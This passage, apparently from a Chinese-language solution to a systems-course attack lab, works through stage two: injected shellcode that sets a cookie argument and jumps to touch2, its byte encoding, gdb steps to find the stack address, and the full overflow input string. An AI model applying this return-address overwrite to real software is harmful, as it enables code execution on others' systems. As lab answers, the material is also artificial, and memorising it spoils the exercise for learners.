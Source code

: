 ```c
    exit(0);
}
```

第二阶段的任务是在`test`函数执行完`getbuf`后去执行`touch2`，注意`touch2`有一个参数，我们需要在执行`touch2`之前把参数`val`设置为`cookie`，`cookie`的值在cookie.txt中。

解题思路：

![YdwJv6.png](https://s1.ax1x.com/2020/05/13/YdwJv6.png)

使用代码注入攻击，输入的字符串中包含攻击指令，然后将返回地址改成攻击指令的地址。

* 在输入字符串中包含exploit code
* 将返回地址设置为exploit code开始的地址
* 在exploit code中完成参数设置，将`touch2`的首地址压栈，通过`ret`指令跳到`touch2`执行

(1).编写攻击指令

```assembly
push $0x4017ec  ;address of touch2
movq $0x59b997fa, %rdi ;cookie
retq
```

(2).生成攻击指令的字节表示

```
$ gcc -c level2.s
$ objdump -d level2.o > level2.d

Disassembly of section .text:

0000000000000000 <.text>:
   0:   68 ec 17 40 00          pushq  $0x4017ec
   5:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   c:   c3                      retq 
```

(3).确定exploit code放置地址

这里我把exploit code放在缓冲区开始的位置，使用gdb调试ctarget，执行到getbuf中第二条指令，此时`%rsp`为`0x5561dc78`。

```
$ gdb ctarget
(gdb) b getbuf
(gdb) r -q
(gdb) stepi
```

(4).构造输入字符串

```
68 ec 17 40 00 48 c7 c7 fa 97 b9 59 c3    //exploit code
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 //pad
78 dc 61 55 00 00 00 00 //return address
```
